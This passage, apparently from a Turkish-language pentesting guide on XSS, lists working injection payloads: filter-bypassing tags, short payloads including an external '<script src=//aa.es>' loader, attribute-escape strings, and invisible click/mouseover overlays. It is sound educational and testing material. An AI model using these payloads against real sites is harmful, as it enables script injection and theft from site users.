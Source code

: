 ```javascript

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Uzunluk atlatma (küçük XSS'ler)

{% hint style="info" %}
**Farklı ortamlar için daha fazla küçük XSS** payload [**burada bulunabilir**](https://github.com/terjanq/Tiny-XSS-Payloads) ve [**burada**](https://tinyxss.terjanq.me).
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

Eğer zafiyeti istismar etmek için **kullanıcının önceden doldurulmuş verilerle bir bağlantıya veya forma tıklamasını** gerektiriyorsa, [**Clickjacking'i istismar etmeyi**](../clickjacking.md#xss-clickjacking) deneyebilirsiniz (eğer sayfa zayıfsa).

### Impossible - Dangling Markup

Eğer **JS kodunu çalıştırmak için bir niteliğe sahip bir HTML etiketi oluşturmanın imkansız olduğunu** düşünüyorsanız, [**Dangling Markup**](../dangling-markup-html-scriptless-injection/) kontrol etmelisiniz çünkü zafiyeti **JS** kodu çalıştırmadan **istismar edebilirsiniz**.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

Eğer **bir HTML etiketinin içindeyseniz**, denemek için ilk şey **etiketten kaçmak** ve [önceki bölümde](./#injecting-inside-raw-html) belirtilen bazı teknikleri kullanarak JS kodunu çalıştırmaktır.\
Eğer **etiketten kaçamazsanız**, etikette yeni nitelikler oluşturarak JS kodunu çalıştırmayı deneyebilirsiniz, örneğin (_bu örnekte çift tırnakların niteliği kaçmak için kullanıldığını unutmayın, eğer girdiniz doğrudan etiketin içinde yansıtılıyorsa onlara ihtiyacınız olmayacak_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**Stil olayları**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
### Attribute içinde
